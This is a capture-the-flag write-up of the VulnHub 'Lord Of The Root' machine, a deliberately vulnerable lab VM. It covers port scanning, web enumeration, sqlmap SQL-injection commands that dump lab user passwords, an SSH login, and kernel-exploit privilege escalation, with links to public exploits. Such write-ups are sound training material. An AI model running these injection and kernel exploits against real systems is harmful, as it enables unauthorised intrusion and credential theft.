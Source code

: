 ```yaml
---
title: "Load of the Root : 1.0.1"
categories: [VulnHub]
tags: [PrivEsc, Recon, Kernel Exploit, mysql]
image:
    path: https://www.vulnhub.com/media/img/entry/lotr-00.png
    alt: Load of the Root Machine 👑
---
```


## **Description ⤵️**

>[!Info] 💡 [Lord Of The Root: 1.0.1](https://vulnhub.com/entry/lord-of-the-root-101,129/) →
> 
> I created this machine to help others learn some basic CTF hacking strategies and some tools. I aimed this machine to be very similar in difficulty to those I was breaking on the OSCP.
> 
> <span style="color:#fd77f8">This is a boot-to-root machine will not require any guest interaction.</span>
> 
> There are two designed methods for privilege escalation.
> - 23/09/2015 == v1.0.1
> 
> - 22/09/2015 == v1.0
> 
> <hr>
> 
> If you are having issues with VirtualBox, try the following:
> 
> - Downloaded LordOfTheRoot_1.0.1.ova (confirmed file hash)
> 
> - Downloaded and installed VMWare ovftool.
> 
> - Converted the OVA to OVF using ovftool.
> 
> - Modified the OVF using text editor, and did the following:
> 
> replaced all references to "ElementName" with "Caption" replaced the single reference to "vmware.sata.ahci" with "AHCI"
> 
> - Saved the OVF. +Deleted the .mf (Manifest) file. If you do not you get an error when importing, saying the SHA does not match for the OVF (I also tried modifying the hash, but no luck).
> 
> - Try import the OVF file, and it should work fine.
> 
> Source: https://twitter.com/dooktwit/status/646840273482330112
{: .prompt-info }


### **Let’s find the IP Address first >>**

![103-1.png](/Vulnhub-Files/img/Load_of_the_root/103-1.png)

```bash
IP : 10.0.2.23
```
{: .nolineno}
{: .nolineno}

## Port Scan Results ➡️

![104-2.png](/Vulnhub-Files/img/Load_of_the_root/104-2.png)

![104-1.png](/Vulnhub-Files/img/Load_of_the_root/104-1.png)

```bash
OPEN PORTS >
22   SSH
1337 HTTP
```
{: .nolineno}
{: .nolineno}

---

## Web Enumeration ⤵️

I first enumerated port 1337 where I found a image, After checking its source code I discover a directory name `/iwilldoit/`.

![105-1.png](/Vulnhub-Files/img/Load_of_the_root/105-1.png)

I again check the source code of this directory `/iwilldoit/` and found an interesting comment that need to be checked in. 

![105-2.png](/Vulnhub-Files/img/Load_of_the_root/105-2.png)

![105-3.png](/Vulnhub-Files/img/Load_of_the_root/105-3.png)

```bash
THprM09ETTBOVEl4TUM5cGJtUmxlQzV3YUhBPSBDbG9zZXIh
```
{: .nolineno}
{: .nolineno}

I used https://hashes.com to crack it down.

![105-4.png](/Vulnhub-Files/img/Load_of_the_root/105-4.png)

```bash
Closer!
```
{: .nolineno}
{: .nolineno}

![105-5.png](/Vulnhub-Files/img/Load_of_the_root/105-5.png)

Another file path I found while digging into other images and with `exiftool` I got the hint.

![105-6.png](/Vulnhub-Files/img/Load_of_the_root/105-6.png)

Sqlmap →

```bash
commands →
sqlmap -o -u http://10.0.2.23:1337/978345210/index.php --form --dbs --l
```
{: .nolineno}
{: .nolineno}

![105-7.png](/Vulnhub-Files/img/Load_of_the_root/105-7.png)

![105-8.png](/Vulnhub-Files/img/Load_of_the_root/105-8.png)

```bash
Command → 
sqlmap -o -u http://10.0.2.23:1337/978345210/index.php --form --dbms m
```
{: .nolineno}
{: .nolineno}

![105-9.png](/Vulnhub-Files/img/Load_of_the_root/105-9.png)


| id  | password         | username |
| --- | ---------------- | -------- |
| 1   | iwilltakethering | frodo    |
| 2   | MyPreciousR00t   | smeagol  |
| 3   | AndMySword       | aragorn  |
| 4   | AndMyBow         | legolas  |
| 5   | AndMyAxe         | gimli    |


Now lets try SSH login with user `MyPreciousR00t` →

![106-1.png](/Vulnhub-Files/img/Load_of_the_root/106-1.png)

Now lets check the kernel version →

![106-2.png](/Vulnhub-Files/img/Load_of_the_root/106-2.png)

I found on web , rather I could also use kernel exploits like [DirtyCow](https://github.com/evait-security/ClickNRoot/tree/master/1) / [PwnKit](https://github.com/ly4k/PwnKit) for post exploitation.

![106-3.png](/Vulnhub-Files/img/Load_of_the_root/106-3.png)

I used `searchsploit` Tool that will search the exploit from public exploitdb repository about the exploit.

![106-4.png](/Vulnhub-Files/img/Load_of_the_root/106-4.png)

Let is try it out →

I got it →

![106-5.png](/Vulnhub-Files/img/Load_of_the_root/106-5.png)

Flag.txt →

![106-6.png](/Vulnhub-Files/img/Load_of_the_root/106-6.png)

<hr>
<br>

# **Summery Notes →**
> 💡 
> sqlmap
>
> Post Exploitation can also be done through [DirtyCow](https://github.com/evait-security/ClickNRoot/tree/master/1) / [PwnKit](https://github.com/ly4k/PwnKit) exploits.
{: .prompt-tip }

<hr>

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }
